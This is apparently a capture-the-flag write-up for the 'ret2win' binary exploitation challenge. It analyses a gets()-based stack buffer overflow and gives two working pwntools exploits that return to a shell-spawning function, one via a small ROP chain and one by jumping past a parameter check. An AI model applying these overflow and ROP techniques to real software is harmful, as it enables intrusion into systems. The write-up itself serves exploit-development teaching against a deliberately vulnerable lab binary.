 # ret2win # 

## challenge description ##
---
Are you looking for an exploit dev job. Well apply to the Republic of Potatoes. We are looking for the best hackers out there. Download the binary, find the secret door and remember to pass the right password.
```
nc ret2win.challenges.ctf.ritsec.club 1337
```


## Analysis ## 
---

We're given a binary called `ret2win`. Let's do the usual analysis on this: 

```
$ file ret2win 
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6407290ddc178ebcff6a243a585c21e8c32a440b, for GNU/Linux 3.2.0, not stripped

$ checksec ret2win
[*] '/path/to/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments

```

This means that **all modern mitigations are disabled**

- stack cookies are disabled, so we shouldn't have any problems exploiting a stack-based buffer overflow without a leak.
- no PIE means the binary itself is always mapped at address 0x400000, which means we can source ROP gadgets from the binary if we need to.



Let's look at the decompilation:

```c
undefined8 main(void)

{
  puts(
      "Are you expert at exploit development, join the world leading cybersecurity company, Republic  of Potatoes(ROP)"
      );
  puts("[*] This is a simple pwn challenge...get to the secret function!!");
  user_input();
  return 0;
}
```

The `main()` function prints out a welcome message and then calls `user_input()`. It also hints at ROP.

```c
void user_input(void)

{
  char local_28 [32];
  
  gets(local_28);
  printf("[*] Good start %s, now do some damage :) \n",local_28);
  return;
}

```

The `user_input()` function is vulnerable to a trivial stack-based buffer overflow. This would allow us to hijack control flow by overwriting this functions return address on the stack. 

```c
void supersecrettoplevelfunction(int param_1,int param_2)

{
  puts("[*]  if you figure out my address, you are hired.");
  if ((param_1 == -0x35014542) && (param_2 == -0x3f214542)) {
    system("/bin/sh");
  }
  else {
    puts("[!!] You are good but not good enough for my company");
  }
  return;
}
```

As the challenge name suggests, there is also a '`win()`' function that drops us into a shell if we can pass the following check:

```
  if ((param_1 == -0x35014542) && (param_2 == -0x3f214542)) {
```

## Exploitation ##
---
There are two ways of exploiting this binary, the most likely **intended** way and the **easy** way. 

### 1. Intended way ###
We could overwrite `saved rip` with the address of `supersecrettoplevelfunction()`. However, we need to first set `param_1` and `param_2` to the expected values to pass the check. 

Under x86-64 linux, the function calling convention a function expects its first parameter in the `rdi` register and the second parameter in `rsi`. So in order to set these values, we would need a small rop chain: 

```
pop rdi; ret;
rdi_value;
pop rsi; ret; 
rsi_value; 
address_of_supersecrettoplevelfunction
```

Giving us the following exploit: 

```python
#!/usr/bin/env python3
from pwn import *

r = process("./ret2win")
e = ELF("./ret2win")
rop = ROP(e)

# construct payload
payload = b"A" * 32 + b"B" * 8
payload += p64(rop.find_gadget(["pop rdi", "ret"]).address)
payload += p64(0xffffffffffffffff-0x35014542+1)
payload += p64(rop.find_gadget(["pop rsi", "pop r15", "ret"]).address)
payload += p64(0xffffffffffffffff-0x3f214542+1)
payload += p64(0xdeadbeefcafebabe)
payload += p64(e.symbols['supersecrettoplevelfunction'])

# send payload
r.sendline(payload)
r.interactive()
```

### Easy Way ###

If you think about it, do we really need to return to the start of the function before the if statement? What if, instead of returning to the address `0x401196`, we could return to the exact instruction that calls `system("/bin/sh")` at address `0x4011c6` and completely bypass the check! 

This gives us the following simplified exploit:

```python3
#!/usr/bin/env python3
from pwn import *

r = process("./ret2win")

# construct payload
payload = b"A" * 32 + b"B" * 8
payload += p64(0x4011c6)

# send payload
r.sendline(payload)
r.interactive()
```